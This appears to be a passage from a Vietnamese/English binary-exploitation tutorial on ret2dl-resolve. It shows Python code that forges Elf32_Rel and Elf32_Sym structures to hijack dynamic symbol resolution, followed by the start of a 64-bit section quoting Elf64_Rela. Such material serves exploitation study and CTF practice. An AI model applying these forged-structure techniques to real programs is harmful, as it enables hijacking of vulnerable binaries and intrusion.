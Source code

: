 ```python
### FAKE INFO 
# Compute offsets and forged structures
forged_ara = buf + 0x14				                  # buffer2 contain struct from buf + 0x14 = EXAMPLE

elf32_sym = forged_ara + 0x8	                     # size of elf32_rel
align = 0x10 - ((elf32_sym - SYMTAB) % 0x10) 	   # align to 0x10
elf32_sym = elf32_sym + align

# fake rel_offset argument `_dl_runtime_resolve`
rel_offset = forged_ara - JMPREL		

# fake rel_entry->r_info 
index_sym = (elf32_sym - SYMTAB) // 0x10
r_info = (index_sym << 8) | 0x7

# fake st_name (sym_entry->st_name)
st_name = (elf32_sym + 0x10) - STRTAB

### FAKE STRUCT
# fake struct "Elf32_Rel *rel_entry"
fake_rel_struct = p32(elf.got["read"]) + p32(r_info)

# fake struct "Elf32_Sym *sym_entry"
fake_sym_struct = p32(st_name) + p32(0) 
fake_sym_struct += p32(0) + p32(0x12)
```

---------------------------------------------------

### Reference Source:

[+] https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62

[+] https://www.lazenca.net/display/TEC/01.Return-to-dl-resolve+-+x86

## 2) 64 bit.

### A) FAKE Rela_offset.

Cấu trúc Elf64_Rela có kích thước 24 byte.

```c
typedef uint64_t Elf64_Addr;
typedef uint64_t Elf64_Xword;
typedef int64_t  Elf64_Sxword;
 
typedef struct
{
  Elf64_Addr      r_offset;              /* Address, Location at which to apply the action */ 8
  Elf64_Xword     r_info;                /* Relocation type and symbol index */ 8
  Elf64_Sxword    r_addend;              /* Constant addend used to compute value */ 8
} Elf64_Rela;

#define ELF64_R_SYM(val) ((val) >> 32) 
#define ELF64_R_TYPE(val) ((val) & 0xffffffff)

/* val = Elf64_Rela->r_info */
```
